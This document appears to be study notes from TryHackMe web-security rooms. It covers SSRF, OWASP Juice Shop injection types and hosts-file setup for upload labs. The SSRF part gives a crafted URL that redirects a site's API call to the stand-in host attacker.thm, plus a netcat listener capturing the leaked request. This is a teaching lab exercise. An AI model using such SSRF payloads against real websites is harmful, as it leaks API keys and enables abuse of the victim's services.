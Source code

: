 As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

> This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC`

> You could then just capture the contents of the request using Netcat:

```shell
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```
> This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:
> 	- Enumerate internal networks, including IP addresses and ports
> 	- Abuse trust relationships between servers and gain access to otherwise restricted services
> 	- Interact with some non-HTTP services to get remote code execution (RCE).

# OWASP Juice Shop

### Task 3: Injections

> This task will be focusing on injection vulnerabilities. Injection vulnerabilities are quite dangerous to a company as they can potentially cause downtime and/or loss of data.

Identifying injection points in a web application is usually quite simple, as most of them will return an error. 

There are many types of injection attacks:

| Injection         | Description                                                                                                                                                                                                                                                 |
| ----------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| SQL Injection     | SQL injection is when an attacker enters a malicious or malformed query to either retrieve or tamper data from a database. And in some cases, log into accounts.                                                                                            |
| Command Injection | Command injection is when web apps take input or user-controlled data and run them as system commands. An attacker may tamper with this data to execute their own system commands. This can be seen in applications that perform misconfigured ping tests.  |
| Email Injection   | Email injection is a security vulnerability that allows malicious users to send email messages without prior authorization by the email server. These occur when the attacker adds extra data to fields, which are not intercepted by the server correctly. |

### Upload Vulnerabilities

> The instructions in this task will help you to configure the hosts file of your device. The hosts file is used for local domain name mapping, bypassing DNS. In short, it allows you to map IP addresses to domain names locally without relying on a DNS server to resolve the IP address for you. 

- This is useful in environments such as TryHackMe where DNS is not available as it allows us to manually map one or more domains / subdomains to an IP address of our choosing.
- Being able to access content using a domain makes it possible to (amongst many other advantages) use name-based virtual hosting -- commonly shorted to **vhosting** -- to serve multiple websites from a single web server.
